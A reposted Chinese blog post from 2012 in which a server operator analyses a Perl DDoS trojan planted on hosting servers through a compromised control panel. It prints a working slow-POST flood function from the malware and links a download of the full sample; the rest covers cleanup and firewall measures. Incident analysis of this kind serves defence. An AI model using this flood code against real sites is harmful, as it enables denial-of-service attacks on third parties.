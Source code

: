 ```yaml
---
date: '2012-04-22 16:04'
layout: post
slug: zt-an-experience-of-server-anti-ddos
title: "[ZT]记一次运维，一个 Linux 木马"
description: ""
category: 
tags: [ddos, server]
---
```

{% include JB/setup %}

http://www.lovelucy.info/an-experience-of-server-anti-ddos.html<br>
2012-04-22 16:04	| 25 次围观<br>
<font color="navy">嘛，新平台上的第一篇新帖子……</font>

* * *

上个月数据中心的多台服务器接连被人挂马，又有客户的网站被 DDOS，公司的运维整个都处于一种被打了鸡血的亢奋状态，连我手上的项目都被部门老大停了，调去帮运维。第一次见到 Linux 下面的木马，突然想起来，还是值得记录一下。

分析日志发现 Attacker 应该是通过某种途径获得了客户的后台密码，然后利用控制面板的漏洞，上传了压缩包里的 `falabiya.cgi` 并运行。这样会生成 `.X11-unix` 文件（其实就是 falabiya 那一段 `base64_decode`）， `.X11-unix`即具体的后门程序。

信安专业的 Felix021 和芒果师兄都对这个案例表示出了兴趣，于是我分别和他们分析了一下。这是一段 perl 脚本，写得十分精妙。具体功能就是拿我们的服务器做肉鸡，监听端口获取指令，向指定地址发送数据，从而实行 DDOS 攻击。代码内置了几乎所有浏览器的 UA 字符串，每次都随机抽取其中一个，伪装为正常访问。genGarbage、tcp flood、udp flood、slow get/post 等各种 DDOS 方式均有实现，特别是 sendSlowPostRequest 这个方法，实在太贱了，一点点地发，对方必须 hold 住资源等你发完。。短短数百行代码，却对各种错误异常处理得十分仔细，必然出自高人之手。注释里有些不能识别的字符，也不知道是什么编码，无法推断是哪个国家的黑客写的。。

<font color="navy">
Galaxy看到注释中有<code>#id3|slowpost|ya3.ru|3128|/index.html</code>，就猜到是俄语。到EditPlus中翻了半天，找到<code>Ukrainian (MAC) 10017</code>，解出来一看，果然是。<br>
话说，俄语的学名是“乌克兰语”<font style="font-family: monospace;">[j'kreinən]</font>么？
</font>

	sub sendSlowPostRequest {
		my $host = $_[0];
		my $port = $_[1];
		my $path = $_[2];	
		my $contentLen = $_[3];	
		my $chars = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()_+|\=-~`1234567890";
		
		print "start\n";
		
		socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
		$iaddr = inet_aton($host);
		$paddr = sockaddr_in($port, $iaddr);
		connect(SOCK, $paddr);
		
		#send header
		send (SOCK, "POST ".$path." HTTP/1.1\r\n", 0);	
		send (SOCK, "Host: $host\r\n", 0);	
		send (SOCK, "User-Agent: $ua\r\n", 0);	
		send (SOCK, "Content-type: application/x-www-form-urlencoded\r\n", 0);	
		send (SOCK, "Content-length: $contentLen\r\n", 0);	
		send (SOCK, "\r\n", 0);	
		
		#send body
		for my $i (1..$contentLen){
			my $symbol = substr $chars, int rand length($chars), 1;
			print "$symbol ";
			send (SOCK, $symbol, 0);
			sleep 3;
		}
		send (SOCK, "\r\n", 0);
		close(SOCK);
		print "end\n";
	}

后来我们清理掉了所有木马，限制脚本运行，配置防火墙阻止向外发送异常数据。至于我们自己被 DDOS 攻击，也是配防火墙搞定，那几台设备好几百万，还是相当给力的。因为来自中国的攻击很多，Boss 一直对内地黑客十分“敬仰”，要我介绍几个给他认识。。其实我是了解国内那些所谓的“黑客”的，不得已只好把也是武大信安毕业后来去中科院的 LC 拉来……后来 Boss 还跑去北京找绿盟谈过合作，据说他家要上市了。

代码请[猛戳这里](/assets/wp-uploads/2012/peach.20120228.zip "http://host-for-download.googlecode.com/files/peach.20120228.zip")下载。有任何研究发现，欢迎分享。
